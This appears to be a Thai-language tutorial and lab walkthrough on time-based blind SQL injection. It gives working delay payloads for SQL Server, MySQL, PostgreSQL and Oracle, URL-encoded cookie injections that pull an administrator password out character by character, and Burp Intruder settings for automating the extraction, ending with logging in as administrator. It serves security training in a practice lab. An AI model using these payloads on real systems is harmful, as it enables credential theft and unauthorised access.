### อธิบาย Syntax:
- `WAITFOR DELAY '0:0:10'` = รอ 10 วินาที
- Format: `'ชั่วโมง:นาที:วินาที'`

## การดึงข้อมูลทีละตัวอักษร

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:10'--
```

### อธิบายโค้ดนี้:
1. `SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator'` - นับจำนวน user ชื่อ Administrator
2. `SUBSTRING(Password, 1, 1) > 'm'` - เช็คว่าตัวอักษรแรกของ password มากกว่า 'm'
3. ถ้าเงื่อนไขทั้งหมดเป็นจริง = delay 10 วินาที
4. ถ้าเป็นเท็จ = ไม่ delay

## เทคนิคสำหรับฐานข้อมูลอื่นๆ

### MySQL:
```sql
'; SELECT SLEEP(10) WHERE 1=1--
'; SELECT IF(1=1, SLEEP(10), 0)--
```

### PostgreSQL:
```sql
'; SELECT pg_sleep(10) WHERE 1=1--
'; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

### Oracle:
```sql
'; BEGIN DBMS_LOCK.SLEEP(10); END WHERE 1=1--
```

## ตัวอย่างการใช้งานจริง

### ทดสอบว่ามี table users หรือไม่:
```sql
-- MySQL
'; SELECT IF(EXISTS(SELECT * FROM users), SLEEP(5), 0)--

-- SQL Server  
'; IF EXISTS(SELECT * FROM users) WAITFOR DELAY '0:0:5'--
```

### หาความยาวของ password:
```sql
-- SQL Server
'; IF (SELECT LEN(password) FROM users WHERE username='admin') > 8 WAITFOR DELAY '0:0:5'--

-- MySQL
'; SELECT IF((SELECT LENGTH(password) FROM users WHERE username='admin') > 8, SLEEP(5), 0)--
```

### ทดสอบตัวอักษรทีละตัว:
```sql
-- SQL Server - ตัวอักษรแรก
'; IF (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin') = 'a' WAITFOR DELAY '0:0:5'--

-- MySQL - ตัวอักษรแรก  
'; SELECT IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin') = 'a', SLEEP(5), 0)--
```

## การวัดเวลาและการตีความผลลัพธ์

### การตั้งค่า Timeout ที่เหมาะสม:
- **Delay สั้นเกินไป** (1-2 วินาที) = อาจเกิด false positive จาก network latency
- **Delay ยาวเกินไป** (20+ วินาที) = ช้าเกินไป, อาจ timeout
- **Delay ที่แนะนำ** = 5-10 วินาที

### การอ่านผลลัพธ์:
- **Response time ปกติ** (< 1 วินาที) = เงื่อนไขเป็นเท็จ
- **Response time นาน** (≈ delay time) = เงื่อนไขเป็นจริง

## ข้อดีและข้อเสีย

### ข้อดี:
- ใช้ได้เมื่อ error-based injection ใช้ไม่ได้
- ไม่ต้องพึ่งพา error messages
- ทำงานได้กับฐานข้อมูลเกือบทุกประเภท

### ข้อเสีย:
- **ช้า** - ต้องรอ delay ในแต่ละ request
- **ไม่เสถียร** - network latency อาจส่งผลกระทบ
- **ใช้เวลานาน** - ต้อง brute force ทีละตัวอักษร

## เทคนิคเพิ่มประสิทธิภาพ

### 1. ใช้ Binary Search:
```sql
-- แทนที่จะทดสอบ a-z ทีละตัว
-- เริ่มจากทดสอบว่ามากกว่า 'm' หรือไม่
'; IF (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin') > 'm' WAITFOR DELAY '0:0:5'--
```

### 2. ทดสอบหลายตัวอักษรพร้อมกัน:
```sql
'; IF (SELECT SUBSTRING(password,1,3) FROM users WHERE username='admin') = 'abc' WAITFOR DELAY '0:0:5'--
```

## สรุป

Time-based blind SQL injection เป็นเทคนิคที่มีประสิทธิภาพเมื่อวิธีอื่นใช้ไม่ได้ แต่ต้องใช้เวลานานและต้องระวังเรื่อง network latency การเลือกใช้ delay time ที่เหมาะสมและการใช้เทคนิค binary search จะช่วยเพิ่มประสิทธิภาพได้มาก!

# วิธีการแก้ปัญหา Time-based Blind SQL Injection แบบละเอียด

## ขั้นตอนที่ 1: ทดสอบ Time Delay เบื้องต้น

**เข้าไปที่หน้าแรกของเว็บไซต์และใช้ Burp Suite จับ request ที่มี TrackingId cookie**

### ทดสอบเงื่อนไขที่เป็นจริง (ควร delay 10 วินาที):
```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

**อธิบาย URL encoding:**
- `%3B` = `;` (semicolon)
- `+` = ` ` (space)
- เมื่อ decode แล้วจะได้: `x';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`

**ผลลัพธ์:** แอปพลิเคชันควรใช้เวลา 10 วินาทีในการตอบสนอง

### ทดสอบเงื่อนไขที่เป็นเท็จ (ไม่ควร delay):
```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

**ผลลัพธ์:** แอปพลิเคชันควรตอบสนองทันทีโดยไม่มี delay

## ขั้นตอนที่ 2: ทดสอบหา User Administrator

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

**ผลลัพธ์:** ถ้าเกิด delay 10 วินาที แสดงว่ามี user ชื่อ administrator

## ขั้นตอนที่ 3: หาความยาวของ Password

### เริ่มจากทดสอบว่า password ยาวกว่า 1 ตัวอักษร:
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

### ทดสอบต่อไปเรื่อยๆ:
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

**ทำไปเรื่อยๆ จนกว่าจะไม่เกิด delay (ตอบสนองทันที) = รู้ความยาวของ password**
*ในกรณีนี้ password ยาว 20 ตัวอักษร*

## ขั้นตอนที่ 4: ใช้ Burp Intruder หาตัวอักษรทีละตัว

**ส่ง request ไปที่ Burp Intruder และตั้งค่า cookie:**
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

### ใส่ payload position markers:
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

## ขั้นตอนที่ 5: การตั้งค่า Burp Intruder

### Payload Configuration:
- เลือก **Simple list**
- เพิ่ม payload: `a-z` และ `0-9`
- ใช้ "Add from list" dropdown เพื่อความสะดวก

### Resource Pool Configuration (สำคัญมาก!):
- ไปที่ **Resource pool** tab
- ตั้งค่า **Maximum concurrent requests = 1**
- *เพื่อให้การวัดเวลามีความแม่นยำ*

## ขั้นตอนที่ 6: การอ่านผลลัพธ์

### เมื่อ attack เสร็จ ให้ดูคอลัมน์ "Response received":
- **เลขเล็กๆ** (< 1000 milliseconds) = ตัวอักษรผิด
- **เลขใหญ่** (≈ 10,000 milliseconds) = ตัวอักษรถูกต้อง ✅

## ขั้นตอนที่ 7: หาตัวอักษรที่เหลือ

**เปลี่ยน offset จาก 1 เป็น 2 เพื่อหาตัวอักษรตัวที่ 2:**
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

**ทำซ้ำกระบวนการสำหรับ offset 3, 4, 5... จนครบ 20 ตัวอักษร**

## ขั้นตอนสุดท้าย: เข้าสู่ระบบ

1. คลิก **"My account"**
2. ใส่ username: `administrator`
3. ใส่ password ที่ได้จากการ attack
4. เข้าสู่ระบบสำเร็จ! 🎉

---

## เทคนิคสำคัญที่ต้องจำ

### 1. PostgreSQL Time Delay Function:
```sql
pg_sleep(10)  -- รอ 10 วินาที
```

### 2. CASE Statement Structure:
```sql
CASE WHEN (condition) THEN pg_sleep(10) ELSE pg_sleep(0) END
```

### 3. SUBSTRING Function:
```sql
SUBSTRING(password, position, length)
-- SUBSTRING(password, 1, 1) = ตัวอักษรแรก
-- SUBSTRING(password, 2, 1) = ตัวอักษรที่สอง
```

### 4. URL Encoding สำคัญ:
- `;` → `%3B`
- ` ` → `+`

## ข้อสังเกตสำคัญ

### ทำไมต้องใช้ Single Thread?
- การส่ง request แบบ concurrent อาจทำให้เวลาวัดไม่แม่นยำ
- Network congestion จะส่งผลต่อการวัดเวลา
- Single thread ทำให้ผลลัพธ์เชื่อถือได้มากขึ้น

### การแยกแยะ True/False:
- **True condition** = Response time ≈ 10,000ms
- **False condition** = Response time < 1,000ms
- ความแตกต่างชัดเจนพอที่จะแยกแยะได้

Time-based blind SQL injection ใช้เวลานานแต่ใช้ได้ผลแม้ในกรณีที่เทคนิคอื่นล้มเหลว การตั้งค่า Burp Intruder ให้ถูกต้องเป็นกุญแจสำคัญของความสำเร็จ!

